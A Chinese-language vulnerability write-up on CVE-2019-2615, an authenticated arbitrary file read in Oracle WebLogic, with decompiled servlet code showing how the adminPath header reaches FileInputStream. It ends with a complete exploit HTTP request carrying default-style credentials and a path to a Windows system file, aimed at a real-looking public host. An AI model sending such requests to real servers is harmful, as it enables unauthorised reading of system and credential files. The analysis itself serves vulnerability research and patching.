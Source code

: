 # （CVE-2019-2615）WebLogic 任意文件读取漏洞

## 一、漏洞简介

攻击者可以在已知用户名密码的情况下读取WebLogic服务器中的任意文件。

## 二、漏洞影响

* WebLogic 10.3.6.0
* WebLogic 12.1.3.0
* WebLogic 12.2.1.2
* WebLogic 12.2.1.3

## 三、复现过程

### 漏洞分析

该功能的关键代码在 `weblogic.management.servlet.FileDistributionServlet`的doGet()方法中：

```java
public void doGet(final HttpServletRequest var1, final HttpServletResponse var2) throws ServletException, IOException {
    AuthenticatedSubject var3 = this.authenticateRequest(var1, var2);
    if(var3 != null) {
        final String var4 = var1.getHeader("wl_request_type");
        if(var3 != KERNEL_ID) {
            AdminResource var5 = new AdminResource("FileDownload", (String)null, var4);
            if(!this.am.isAccessAllowed(var3, var5, (ContextHandler)null)) {
                ManagementLogger.logErrorFDSUnauthorizedDownloadAttempt(var3.getName(), var4);
                var2.sendError(401);
                return;
            }
        }

        try {
            if(debugLogger.isDebugEnabled()) {
                debugLogger.debug("---- >doGet incoming request: " + var4);
            }

            if(var4.equals("wl_xml_entity_request")) {
                this.doGetXMLEntityRequest(var1, var2);
            } else if(var4.equals("wl_jsp_refresh_request")) {
                this.doGetJspRefreshRequest(var1, var2);
            } else if(var4.equals("file")) {
                this.doGetFile(var1, var2);
            } else if(!var4.equals("wl_init_replica_request") && !var4.equals("wl_file_realm_request") && !var4.equals("wl_managed_server_independence_request")) {
                var2.addHeader("ErrorMsg", "Bad request type");
                String var10 = Utils.encodeXSS(var4);
                var2.sendError(400, "Bad request type: " + var10);
                ManagementLogger.logBadRequestInFileDistributionServlet(var4);
            } else {
                ......
                ......
                }
            }
        } catch (Exception var9) {
            if(!Kernel.isInitialized()) {
                throw new AssertionError("kernel not initialized");
            }

            ManagementLogger.logErrorInFileDistributionServlet(var4, var9);
        }

    }
}

```

代码也比较简单，先取request中header的参数"wl_request_type"的值，然后判断如果该值等于“wl_xml_entity_request”、“wl_jsp_refresh_request”、“file”......则分别调用各自的方法，进入下一步判断。我们看一下如果wl_request_type的值为“wl_jsp_refresh_request”，进入doGetJspRefreshRequest()方法。我们跟入doGetJspRefreshRequest()方法：

```java
private void doGetJspRefreshRequest(HttpServletRequest var1, HttpServletResponse var2) throws IOException {
     String var3 = var1.getHeader("adminPath");

     try {
         FileInputStream var4 = new FileInputStream(var3);

         try {
             var2.setContentType("text/plain");
             var2.setStatus(200);
             this.returnInputStream(var4, var2.getOutputStream());
         } finally {
             var4.close();
         }

     } catch (IOException var10) {
         String var5 = "I/O Exception getting resource: " + var10.getMessage();
         var2.addHeader("ErrorMsg", var5);
         var2.sendError(500, var5);
     }
 }

```

doGetJspRefreshRequest()方法中的“adminPath”也是request中的header参数，我们在Post包中传入要读取的文件。进入该方法中，直接使用FileInputStream类进行文件读取，故造成了所谓的“任意文件读取”漏洞。

### 漏洞复现

```bash
GET /bea_wls_management_internal2/wl_management HTTP/1.1
Host: baidu.com:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
username:weblogic
password:admin123456
wl_request_type:wl_jsp_refresh_request
adminPath:c:\windows\win.ini
Upgrade-Insecure-Requests: 1

```

![M~P`JFB4OPB3JUN7FJ_F.png](images/eddf55e33a32482d8620ba9324b26a1f.png)

